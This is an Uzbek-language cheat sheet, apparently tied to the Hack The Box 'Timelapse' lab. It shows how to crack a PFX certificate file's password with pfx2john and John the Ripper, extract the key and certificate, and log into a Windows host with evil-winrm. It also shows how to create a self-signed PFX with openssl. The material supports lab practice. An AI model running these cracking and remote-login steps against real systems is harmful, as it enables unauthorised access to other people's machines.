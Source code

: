 **PFX fayl parolini aniqlash?**  
PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   
1. Hash yaratish.
 - **# pfx2john fayl.pfx > fayl.hash**
2. John the Ripper bilan parolni ochish.
 - **# john fayl.hash --wordlist=/usr/share/wordlists/rockyou.txt --force**
3. Kalit va sertifikatni olish.  
   A. Shaxsiy kalitni chiqarish:
    - **# openssl pkcs12 -in fayl.pfx -nocerts -out fayl.key-enc**
    - Enter Import Password:(hash orqali aniqlangan parol (Brute force paroli))  Enter PEM pass phrase(Shaxsiy kalit uchun yangi parol kiritish): Verifying - Enter PEM pass phrase(qayta kiritish):
  B. Sertifikatni chiqarish:   
    - **# openssl pkcs12 -in fayl.pfx -clcerts -nokeys -out fayl.crt**   
  C. Shaxsiy Kalitni shifrdan yechish (Decrypt):
    - **# openssl rsa -in fayl.key-enc -out fayl.key**
    - yuqorida kiritilgan yangi parol kiritiladi.
4. evil-winrm orqali tizimga ulanish. (evil-winrm — bu Windows Remote Management (WinRM) protokoliga asoslangan vosita bo'lib, Windows tizimlariga masofaviy ulanish uchun ishlatiladi.)
 - **# evil-winrm -i <IP> -k fayl.key -c fayl.crt -S -r timelapse**    

Asosiy parametrlar:   
**-i <IP>** – Masofaviy Windows mashinasining IP manzili. (Masalan: 10.10.10.10)  
**-k fayl.key** – Shaxsiy kalit (Private Key) fayli. Bu kalit .pfx fayldan ajratib olingan bo'lishi kerak.  
**-c fayl.crt** – Sertifikat (Certificate) fayli. Bu ham .pfx fayldan chiqarib olingan.  
**-S** – HTTPS orqali ulanish. Bu parametr WinRM xizmatiga xavfsiz (TLS) ulanishni ta'minlaydi.  
**-r timelapse** – Bu parametr ressurs nomini ko'rsatadi. Bu misolda "timelapse" deb nomlangan domen yoki ma'lum bir ulanish konteksti kiritilgan. (Bu CTF topshirig'ida maxsus muhit yoki ulanish nuqtasi bo'lishi mumkin.)    
 - **# evil-winrm -i 10.10.10.10 -k private.key -c certificate.crt -S**  
https://www.hackingarticles.in/timelapse-hackthebox-walkthrough/


**PFX fayl yaratish**
1. OpenSSL o'rnatilganligini tekshirish
 - **# openssl version**
 - Agar o'rnatilmagan bo'lsa (**# sudo apt update && sudo apt install openssl**)
2. Shaxsiy kalit (Private Key) yaratish (256-bitli RSA shaxsiy kalit yaratish)
 - **# openssl genrsa -out private.key 2048**
 -  **private.key** — bu shaxsiy kalit bo'lib, maxfiy saqlanishi kerak.
3.  Sertifikat uchun talab (CSR - Certificate Signing Request) yaratish
 - **# openssl req -new -key private.key -out request.csr**
4. Self-Signed Certificate yaratish.
 - **# openssl x509 -req -days 365 -in request.csr -signkey private.key -out certificate.crt**
5. PFX (PKCS#12) faylini yaratish.
 - **# openssl pkcs12 -export -out mycertificate.pfx -inkey private.key -in certificate.crt**
6. Yaratilgan PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   


